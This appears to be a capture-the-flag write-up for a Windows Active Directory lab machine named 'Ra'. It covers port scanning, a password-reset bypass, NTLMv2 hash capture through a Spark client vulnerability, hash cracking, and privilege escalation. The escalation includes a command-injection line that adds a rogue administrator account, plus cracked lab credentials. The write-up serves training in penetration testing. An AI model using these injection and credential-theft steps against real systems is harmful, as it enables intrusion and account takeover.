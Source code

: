 # ra

## nmap

PORT      STATE SERVICE             VERSION                                                                                                                           
53/tcp    open  domain?                                                                                                                                               
80/tcp    open  http                Microsoft IIS httpd 10.0                                                                                                          
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2020-08-10 07:59:02Z)                                                                    
135/tcp   open  msrpc               Microsoft Windows RPC                                                                                                             
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn                                                                                                     
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)                                   
443/tcp   open  ssl/http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                           
445/tcp   open  microsoft-ds?                                                                                                                                         
464/tcp   open  kpasswd5?                                                                                                                                             
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0                                                                                               
636/tcp   open  ldapssl?                                                                                                                                              
2179/tcp  open  vmrdp?                                                                                                                                                
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm0., Site: Default-First-Site-Name)                                   
3269/tcp  open  globalcatLDAPssl?                                                                                                                                     
3389/tcp  open  ms-wbt-server       Microsoft Terminal Services                                                                                                       
5222/tcp  open  jabber                                                                                                                                                
5223/tcp  open  ssl/hpvirtgrp?                                                                                                                                        
5229/tcp  open  jaxflow?                                                                                                                                              
5262/tcp  open  jabber                                                                                                                                                
5263/tcp  open  ssl/unknown                                                                                                                                           
5269/tcp  open  xmpp                Wildfire XMPP Client                                                                                                              
5270/tcp  open  ssl/xmp?                 
5275/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later                                                                            
5276/tcp  open  ssl/unknown              
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)                                                                                           
7070/tcp  open  http                Jetty 9.4.18.v20190429                         
7443/tcp  open  ssl/http            Jetty 9.4.18.v20190429                         
7777/tcp  open  socks5              (No authentication; connection failed)                                                                                            
9090/tcp  open  zeus-admin?              
9091/tcp  open  ssl/xmltec-xmlmail?                                                
9389/tcp  open  mc-nmf              .NET Message Framing                           
49669/tcp open  msrpc               Microsoft Windows RPC                          
49674/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0                                                                                               
49675/tcp open  msrpc               Microsoft Windows RPC                          
49676/tcp open  msrpc               Microsoft Windows RPC                          
49745/tcp open  msrpc               Microsoft Windows RPC  

## httpenum



on enumerating site we see a reset password option

![image-20200810133719555](ra.assets/image-20200810133719555.png)

one of your favourite pets name is also a question



we see a person with her dog maybe we can reset her password.

1. we need her username
2. we need dogs name

![image-20200810133852694](ra.assets/image-20200810133852694.png)



upon further viewing image in new tab we see image name as lilyle and sparky

1. username: lilyle
2. petsname: sparky

![image-20200810134005041](ra.assets/image-20200810134005041.png)



got new password for lilyle

![image-20200810135343356](ra.assets/image-20200810135343356.png)

### creds

lilyle	:	ChangeMe#1234

## smb

### verification

![image-20200810140234324](ra.assets/image-20200810140234324.png)

there is green color plus sign means we can log into smb but cannot execute remote sessions

### smbclient

![image-20200810142807207](ra.assets/image-20200810142807207.png)

intersting share is **shared**

lets enumerate the share

![image-20200810150902402](ra.assets/image-20200810150902402.png)

- found 1st flag 
- spark applications its a client messaging application

![image-20200810151639565](ra.assets/image-20200810151639565.png)

<u>important</u> in case of time_out_error put timeout option to 3600 so that we can download file

## spark

![image-20200810151927175](ra.assets/image-20200810151927175.png)

- installed spark client
- logged in with lilyle credentials

### vulnerability

CVE-2020-12772

![image-20200810152230439](ra.assets/image-20200810152230439.png)

[GITHUB](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md)

### info

- this vulnerability allows us to get hashes of users 
- when they click on the link where responder is running

### ntlmv2

![image-20200810152940971](ra.assets/image-20200810152940971.png)

got a ntlmv2 hash lets crack it to see what could be the password



## hashcat

![image-20200810153243023](ra.assets/image-20200810153243023.png)



### creds

buse : uzunLM+3131



## evil-winrm

![image-20200810153653109](ra.assets/image-20200810153653109.png)

credentials are valid 



lets try to login with evil-winrm

![image-20200810153748982](ra.assets/image-20200810153748982.png)

we got a shell on the box



### enumeration

![image-20200810154027020](ra.assets/image-20200810154027020.png)

on enumerating we found out we are part of account operators group

- we have ability to change passwords.
- only of non-administrative user

### scripts

found a scripts folder on root directory

![image-20200810154240323](ra.assets/image-20200810154240323.png)





the script is taking the contents of hosts.txt from brittanycr and executing it.

![image-20200810154426258](ra.assets/image-20200810154426258.png)



### creds

we can use our privilege of account operators group to change the password of brittanycr on this domain

```powershell
net user brittanycr Password1234! /domain
```

![image-20200810155707751](ra.assets/image-20200810155707751.png)

brittanycr	:	Password1234!





## post

we cannot get remote shell maybe brittanycr is not part of remote management group

![image-20200810160120286](ra.assets/image-20200810160120286.png)



but we can get into smb lets change hosts.txt content to add us as new user in administrator group



### smbclient

````powershell
; net user manish Password; net localgroup administrators manish /add
````



![image-20200810160556089](ra.assets/image-20200810160556089.png)



now we are admins

![image-20200810160920672](ra.assets/image-20200810160920672.png)



![image-20200810161023317](ra.assets/image-20200810161023317.png)